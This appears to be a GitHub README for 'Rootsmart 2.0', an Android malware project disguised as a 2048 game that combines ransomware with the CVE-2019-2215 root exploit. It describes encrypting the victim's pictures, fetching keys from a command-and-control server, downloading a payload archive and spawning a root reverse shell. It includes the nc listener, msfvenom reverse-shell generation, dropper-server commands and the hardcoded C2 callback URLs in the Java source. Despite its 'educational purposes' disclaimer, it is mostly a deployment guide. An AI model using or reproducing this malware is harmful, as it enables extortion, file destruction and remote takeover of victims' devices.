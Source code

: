 # Rootsmart 2.0 w/ cve-2019-2215 + Ransomware

Disclaimer:
This project is solely for educational purposes. 

Attack Vector:

1. Install, run the application and grant permissions
2. Ransomware will AES encrypt all files in /sdcard/Pictures
3. Each file will be encrypted with a random generated key
4. Keys will be stored in /sdcard/keys.json where each key:value pair is filepath:key
5. GET HTTP to C2 server /get_mk to retrieve MasterKey and VictimID in response body
6. MasterKey will encrypt keys.json, VictimID will be stored in /sdcard/victimID.txt
7. The application will download shells.zip and unzip the contents
8. Execute cve-2019-2215 binary from the unzipped contents
9. A root shell process will be spawn and will run install.sh from the unzipped contents
10. Install.sh will execute rs.elf from the unzipped contents to send a reverse connection to attack server


---

## C2 (Command & Control) - Setup
For this test, ensure that the victim phone and the C2 server are in the same subnet (otherwise host C2 in public internet).

Reverse Shell Server
```bash
nc -lvnp 1337 # Ideally this should be the same IP as the dropper server
```

Dropper Server
```bash
# Generate rs.elf payload
msfvenom -p linux/aarch64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> -f elf > rs.elf

# Better to run flask on Windows if WSL don't port forward localhost traffic to Windows Host
cd dropper
python3 -m venv venv # Create venv

# Activate venv
. venv/bin/activate # Linux
venv\Scripts\activate.bat # Windows
pip install -r requirements.txt --upgrade pip # Make sure host shell is root/Administrator

# Run C2 server
python3 dropper_server.py # WSL
python dropper_server.py # Windows
```

shells.zip in /dropper
1. Go to dropper/cve-2019-2215 folder
2. After creating rs.elf, zip rs.elf + cve-2019-2215, install.sh
3. Rename zip file to shells.zip
4. Move shells.zip to /dropper

## Modify the following before compiling APK

Java Classes
```java
// File : 2048-Game/app/src/main/java/aarkay/a2048game/Temproot.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/process_command"; // Line 20

// File : 2048-Game/app/src/main/java/aarkay/a2048game/Encrypt.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/get_mk"; // Line 45
```






